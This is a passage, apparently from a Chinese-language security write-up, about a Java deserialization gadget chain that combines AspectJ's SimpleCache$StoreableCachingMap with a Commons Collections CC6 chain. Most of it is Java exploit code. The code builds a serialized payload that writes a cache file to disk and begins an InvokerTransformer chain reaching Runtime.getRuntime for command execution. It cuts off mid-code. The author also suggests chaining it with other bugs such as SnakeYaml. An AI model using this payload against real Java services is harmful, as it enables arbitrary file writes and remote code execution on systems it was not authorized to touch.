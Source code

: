 很可惜，不管是`InstantiateTransformer`还是`InstantiateFactory`，都要求目标类的构造方法需要是`public`

应该能配合其他漏洞打，比如SnakeYaml

贴一个写CC6序列化数据的payload，接下来就是调用`SimpleCache`构造器的问题了。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static String path = "E:/";
    public static String fileName = "cache.idx";
    public static void main(String[] args) throws Exception {
        writeFile();
    }

    public static void writeFile() throws Exception {
        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = clazz.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        Map map = (Map) constructor.newInstance(path, 6000000);
        Transformer transformer = FactoryTransformer.getInstance(ConstantFactory.getInstance(CC6()));

        Map lazyMap = LazyMap.decorate(map, transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, fileName);

        BadAttributeValueExpException val = new BadAttributeValueExpException(1);
        setValue(val, "val", entry);
        ser(val);
    }

    private static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(o);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        objectInputStream.readObject();
    }

    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] CC6() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
```